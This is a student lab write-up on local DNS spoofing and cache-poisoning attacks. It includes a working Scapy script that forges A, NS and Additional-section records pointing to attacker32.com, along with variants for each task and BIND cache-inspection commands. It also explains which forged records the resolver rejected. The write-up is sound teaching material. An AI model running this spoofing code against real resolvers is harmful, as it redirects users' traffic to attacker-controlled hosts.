

# Local DNS

## **Introduction**

In this lab, we analyze how a local DNS resolver can be attacked using spoofed DNS responses and cache‑poisoning techniques. By manipulating A, NS, and Additional records with Scapy, we observe which forged records get cached and how the resolver’s behavior affects the success of these attacks.

## Environment Setup Fix

**Problem**

- The local DNS must **forward** queries to a valid upstream resolver.



**Action**

- The local DNS could not resolve external names, so we configured BIND to forward queries to 8.8.8.8 and 1.1.1.1
- Add the following code in `/etc/bind/named.conf.options`.

```python
options {
    forwarders {
        8.8.8.8;
        1.1.1.1;
    };
    forward only;
};
```

**Result**


## Before Task, Explain code

- Since this code is used through the whole lab, it’s critical to understand what it does and how it works.
- I’ll use the comment to show how it works.

```python
#!/usr/bin/env python3
from scapy.all import *

def spoof_dns(pkt):
  if (DNS in pkt and ( 'www.example.com' in pkt[DNS].qd.qname.decode('utf-8'))):

    # Swap the source and destination IP address 
    # The destination in request will be the source in response
    IPpkt = IP(dst=pkt[IP].src, src=pkt[IP].dst)

    # Swap the source and destination port number
    # The destination of request or the source of response always use port 53
    UDPpkt = UDP(dport=pkt[UDP].sport, sport=53)

    # The Answer Section 
    # This section would be the IP address response to the domain name 
    Anssec = DNSRR(rrname=pkt[DNS].qd.qname, type='A',
                 ttl=259200, rdata='10.0.2.5')

    # The Authority Section
    # Nameservers that were reached through the DNS request process
    NSsec1 = DNSRR(rrname='example.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')
    NSsec2 = DNSRR(rrname='google.com', type='NS',
                   ttl=259200, rdata='ns2.attacker32.com')

    # The Additional Section
    # Help pointing out the IP for nameservers or relative Domain name
    Addsec1 = DNSRR(rrname='ns.attacker32.com', type='A',
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns2.attacker32.com', type='A',
                    ttl=259200, rdata='5.6.7.8')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                 qdcount=1, ancount=1, nscount=2, arcount=2,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2)

    # Construct the entire IP packet and send it out
    spoofpkt = IPpkt/UDPpkt/DNSpkt
    send(spoofpkt)

# Sniff UDP query packets and invoke spoof_dns().
f = 'udp and dst port 53'
pkt = sniff(iface='br-423615029db2', filter=f, prn=spoof_dns)
```

## Task 1: Directly Spoofing Response to User

In Task 1, we attack the **user** directly by sniffing DNS queries for `www.example.com` and immediately sending a spoofed DNS response that races the legitimate reply from the local DNS server. The goal is to show how a local attacker on the same LAN can misdirect a single DNS lookup by winning this race, without modifying the DNS server’s cache.

**Normal response for `www.example.com` DNS query.**


**Result**

- Since the original name server request is faster than the spoofing DNS packet sent; therefore, we slow down the response time for external network.
- For this task, we use the default code in `dns_sniff_spoof.py` , since the result we want is just simply change the `ANSWER SECTION`.


From this task I learned how to use `Scapy` to craft a forged DNS answer packet and how network delay can affect whether the spoofed reply is accepted.

## Task 2: DNS Cache Poisoning Attack – Spoofing Answers

In Task 2, we shift the target from the user machine to the **local DNS server** and perform a DNS cache poisoning attack against the A record of `www.example.com`. By spoofing the response that the local resolver expects from upstream servers, we cause it to cache the attacker‑controlled IP address so that all future queries for this hostname are redirected until the cache entry expires.

**Command To Run**

```python
# Make sure the cache is clean in local DNS server container
rndc flush
# Run the sniff and spoof code in the attacker container
./dns_sniff_spoof.py
# Make DNS query in the user container
dig www.example.com
# Run the following command to read the cache in DNS server container
rndc dumpdb -cache
cat /var/cache/bind/dump.db
```

**Result**

- As a result, we can see that there is cache A record for `www.example.com` which point to the attacker-designed IP address `10.0.2.5`.


This task demonstrates how a single successful spoofed reply can have a longer‑lasting impact than directly spoofing each user query.

## Task 3: Spoofing NS Records

In Task 3, we extend the cache poisoning idea by spoofing an NS record for the entire `example.com` zone in the Authority section of the DNS response. Instead of poisoning only one A record, we aim to make `ns.attacker32.com` the cached nameserver for `example.com`, so that any hostname under this domain (such as `mail.example.com`) will eventually be resolved through the attacker’s nameserver. 

**Code change from default**

```python
    # The Authority Section
    NSsec1 = DNSRR(rrname='example.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')
    # The Additional Section
    Addsec1 = DNSRR(rrname='ns.attacker32.com', type='A',
                    ttl=259200, rdata='10.9.0.153')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                 qdcount=1, ancount=1, nscount=1, arcount=1,
                 an=Anssec, ns=NSsec1, ar=Addsec1)

```

- Besides, the code change, I also ran the `Command To Run` in Task 2, to make sure the cache is clean.

**Result**

- With the code, I insert a nameserver (NS record) in the DNS cache, so I get `example.com NS ns.attacker32.com`; furthermore, use ADDITION SECTION to point that fake nameserver to the attacker IP address, so we have `ns.attacker32.com. IN A 10.9.0.153`.


This task illustrates how poisoning NS records can give the attacker control over an entire domain, not just a single host.

## Task 4: Spoofing NS Records for Another Domain

In Task 4, we try to abuse the Authority section further by including an extra spoofed NS record that delegates **another domain**, `google.com`, to `ns.attacker32.com` in the same response triggered by a query for `www.example.com`. The idea is to see whether the local DNS server will cache NS information for a domain that is unrelated to the original query, effectively extending the impact of a single poisoning attempt to a different zone.

**Change from Task 3**

```python
    # Add this Authority Section trying to point `google.com` to fake nameserver
    NSsec2 = DNSRR(rrname='google.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                 qdcount=1, ancount=1, nscount=2, arcount=1,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1)

```

- Besides, the code change, I also ran the `Command To Run` in Task 2, to make sure the cache is clean.

**Result**

- We get `example.com NS ns.attacker32.com` , just as Task 3.
- **In our experiment, only the NS record for** `example.com` **was cached, while the additional NS record** `google.com NS ns.attacker32.com` **did not appear in the cache. This indicates that the DNS server validates authority information and does not cache unrelated NS records for other zones (such as** `google.com`**) that are piggy‑backed in a response to a query for** `example.com`**, which mitigates this type of cache‑poisoning attempt.**


From this task, I learned how modern resolvers validate and limit what authority data they cache, which helps mitigate cross‑domain cache poisoning.

## Task 5: Spoofing Records in the Additional Section

In Task 5, we focus on spoofing records in the **Additional section** of a DNS reply, including glue A records for nameservers related to `example.com` and an unrelated A record for `www.facebook.com`. By examining which additional A records are actually cached by the local DNS server, we can see how resolvers treat glue that corresponds to names in the Authority section versus completely unrelated hostnames.

**Change from Task 4**

```python
    # The Authority Section
    NSsec1 = DNSRR(rrname='example.com', type='NS',
                   ttl=259200, rdata='ns.attacker32.com')
    NSsec2 = DNSRR(rrname='example.com', type='NS',
                   ttl=259200, rdata='ns.example.com')

    # The Additional Section
    Addsec1 = DNSRR(rrname='ns.attacker32.com', type='A',
                    ttl=259200, rdata='1.2.3.4')
    Addsec2 = DNSRR(rrname='ns.example.com', type='A',
                    ttl=259200, rdata='5.6.7.8')
    Addsec3 = DNSRR(rrname='www.facebook.com', type='A',
                    ttl=259200, rdata='3.4.5.6')

    # Construct the DNS packet
    DNSpkt = DNS(id=pkt[DNS].id, qd=pkt[DNS].qd, aa=1, rd=0, qr=1,
                 qdcount=1, ancount=1, nscount=2, arcount=3,
                 an=Anssec, ns=NSsec1/NSsec2, ar=Addsec1/Addsec2/Addsec3)

```

- Besides, the code change, I also ran the `Command To Run` in Task 2, to make sure the cache is clean.

**Result**

- As expected, we got following record in cache database.

```python
ns.attacker32.com.	863989	IN A	1.2.3.4
example.com.		863989	NS	ns.example.com.
			          863989	NS	ns.attacker32.com.
ns.example.com.		863989	A	5.6.7.8
www.example.com.	863989	A	10.0.2.5
```

- However, we didn’t get the cache correlate to `www.facebook.com`, since it’s not related to the query, although it appears in the ADDITION SECTION in the user container output console.


This task helped me understand which types of additional data are eligible for caching and why unrelated “piggy‑backed” records are often ignored, reducing the effectiveness of this style of cache‑poisoning attack.

## **Conclusion**

We observed that direct spoofing only affects a single lookup, while poisoning cached A or NS records can redirect future queries persistently. The resolver cached only relative NS and glue records for `example.com` but ignored unrelated entries such as `google.com` and `www.facebook.com`, showing how caching rules help limit some DNS cache‑poisoning attacks.